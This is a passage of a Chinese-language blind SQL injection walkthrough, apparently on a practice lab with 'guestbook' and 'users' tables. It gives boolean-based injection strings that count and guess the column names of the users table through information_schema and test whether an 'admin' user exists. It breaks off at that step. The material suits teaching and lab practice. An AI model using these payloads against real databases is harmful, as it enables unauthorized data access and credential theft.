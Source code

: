 说明第一个表的名字的第一个字符为小写字母g。

...

重复上述步骤，即可猜解出两个表名（guestbook、users）。

4. 猜解表中的字段名

首先猜解表中字段的数量：

```text

1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1 # 显示不存在



…



1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # 显示存在
```

说明users表有8个字段。

接着挨个猜解字段名：

```text

1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 # 显示不存在



…



1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 # 显示存在
```

说明users表的第一个字段为7个字符长度。

采用二分法，即可猜解出所有字段名。

5. 猜解用户名密码

同样采用二分法。

用户 admin 存在吗？

```text

1' and (select count(*) from users where user = 'admin') = 1 #
```
